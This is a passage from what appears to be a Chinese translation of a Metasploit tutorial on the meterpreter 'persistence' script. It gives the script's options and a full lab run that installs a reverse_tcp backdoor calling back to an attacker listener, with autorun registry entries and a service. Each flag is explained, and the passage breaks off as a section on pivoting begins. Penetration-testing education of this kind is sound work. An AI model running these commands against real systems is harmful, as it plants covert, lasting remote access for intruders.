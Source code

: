 ```
meterpreter > run persistence -h
Meterpreter Script for creating a persistent backdoor on a target host.
OPTIONS:
-A Automatically start a matching multi/handler to..
-L <opt> Location in target host where to write payload to..
-P <opt> Payload to use, default is
-S Automatically start the agent on boot as a service
-T <opt> Alternate executable template to use
-U Automatically start the agent when the User logs on
-X Automatically start the agent when the system boots
-h This help menu
-i <opt> The interval in seconds between each connection
-p <opt> The port on the remote host where Metasploit..
-r <opt> The IP of the system running Metasploit listening.. 
```

如您所见，它与 Metsvc 相比有一些额外的选项。让我们执行脚本，并根据我们的需求传递不同的参数。

```
meterpreter > run persistence -A -S -U -i 60 -p 4321 -r 192.168.56.101
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/DARKLORD-PC_20111227.0307/DARKLORD-PC_20111227.0307.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4321
[*] Persistent agent script is 610795 bytes long
[+] Persistent Script written to C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[*] Starting connection handler at port 4321 for windows/meterpreter/reverse_tcp
[+] Multi/Handler started!
[*] Executing script C:\Users\DARKLORD\AppData\Local\Temp\LHGtjzB.vbs
[+] Agent executed with PID 5712
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\DBDalcOoYlqJSi
[*] Installing as service..
[*] Creating service cpvPbOfXj 
```

## 它是如何工作的...

注意脚本传递的不同参数。`-A` 参数会在攻击机器上自动启动监听器。`-S` 操作符设置后门在每次 Windows 启动时加载。`-U` 操作符在用户登录系统时执行后门。`-i` 操作符设置后门尝试连接回代理处理程序的间隔。`-p` 是端口号，`-r` 是目标机器的 IP 地址。脚本执行的输出还包含一些有用的信息。脚本已经创建了一个资源文件用于清理，以便在使用后删除后门。脚本已经在目标机器的`temp`文件夹中创建了一个 vbs 文件。它还创建了注册表条目，以便在每次 Windows 启动时自动加载后门。

我们为后门设置了 60 秒的间隔，以便连接回代理处理程序。在脚本成功执行后，您将看到在 60 秒的间隔内，meterpreter 会自动在目标机器上打开一个会话。

这个快速演示解释了我们如何与目标机器建立持久连接。您可以尝试使用这两个脚本进行不同的场景，并分析其工作原理。在下一个示例中，我们将专注于另一个有趣的概念，称为转向。

# 使用 meterpreter 进行转向

到目前为止，我们已经涵盖了大部分主要的 meterpreter 命令和脚本。您一定已经注意到了在后期利用阶段，meterpreter 可以有多么强大。在这个示例中，我们将讨论一个最酷的，也是我最喜欢的概念之一，称为转向。让我们从理解转向的含义开始，为什么需要它，最后 Metasploit 如何在转向中有用。

## 准备工作
